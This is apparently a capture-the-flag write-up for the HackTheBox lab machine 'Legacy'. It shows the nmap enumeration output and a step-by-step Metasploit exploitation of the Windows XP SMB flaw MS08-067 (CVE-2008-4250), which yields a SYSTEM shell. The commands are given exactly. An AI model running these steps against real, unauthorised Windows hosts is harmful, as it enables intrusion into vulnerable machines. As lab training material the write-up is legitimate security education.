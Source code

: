 ```yaml
---
layout: post
title:  "HackTheBox - Legacy Writeup"
categories: [HackTheBox]
tags: []
draft: false
---
```


# Introduction

This is a writeup for the machine "Legacy" (10.10.10.4) on the platform HackTheBox. HackTheBox is a pentetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

The first thing we're going to do is run an NMAP scan using the following command `nmap -sV -sC -Pn -oX /tmp/webmap/legacy.xml 10.10.10.4` if you're wondering about the last flag `-oX` that is allowing me to output the report into an XML format, this is because I use webmap (as you can see in the /tmp/webmap) which is an awesome tool that allows me some visual aids for a box/network!

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Legacy$ nmap -sC -sV -Pn -oX /tmp/webmap/legacy.xml 10.10.10.4

Starting Nmap 7.60 ( https://nmap.org ) at 2019-01-28 17:13 GMT
Nmap scan report for 10.10.10.4
Host is up (0.028s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d01h57m38s, deviation: 0s, median: 5d01h57m38s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:65:4d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-02-02T21:11:16+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

As you can see in the above scan, it looks like we're rrunning Windows XP, as you will know, this is a very old OS so it is likely there are going to be some CVEs which are unpatched, very easy to explokt & very powerful. We know that SMB is running so let us do some google-fu for a SMB Windows XP vulnerability.

### SMB

As we mentioned, we know SMB is running and we're on Windows XP so it is highly likely there is a vulnerability we can exploit for the foothold here. The first thing that I searched was "windows xp smb exploit" and the very first result was CVE2008-4250 & a MSF module that we can use to exploit this. I did some basic research on this vulnerability as I wanted to exploit it manually for my own benefit however, it is a lot harder to exploit manually than I expected with a lot of steps/things that had to be done, so for the sake of this being a 20 point box I just used the Metasploit module.

## Exploitation

So, let's load MSF using `msfconsole` once it loads we need to use `msf5 > use exploit/windows/smb/ms08_067_netapi ` to select the exploit, that is the MS number however as mentioned earlier the CVE is CVE2008-4250. Once we've selected the exploit we now need to set the remote host, we can do this using `set RHOST 10.10.10.4` and that will set the host. That is all we need to configure, now you just need to run the exploit and we'll get a shell.

It is worth noting that this might not work without setting the target, in that case, we know that it is Windows XP but we don't know the service pack however, we can take a pretty good guess it is the English pack SP2 or SP3. You can use `show targets` to find a list of all the service packs, etc.

```
msf5 exploit(windows/smb/ms08_067_netapi) > set TARGET 7
TARGET => 7
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   7   Windows XP SP3 English (NX)


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

Once you run this you're going to get thrown into the `system32` folder as NT_Authority. That basically means, no privilege escalation is going to be required for us now, all we need to do is go and get the user & root flag. That is it!

Thanks for reading another writeup, more coming soon! 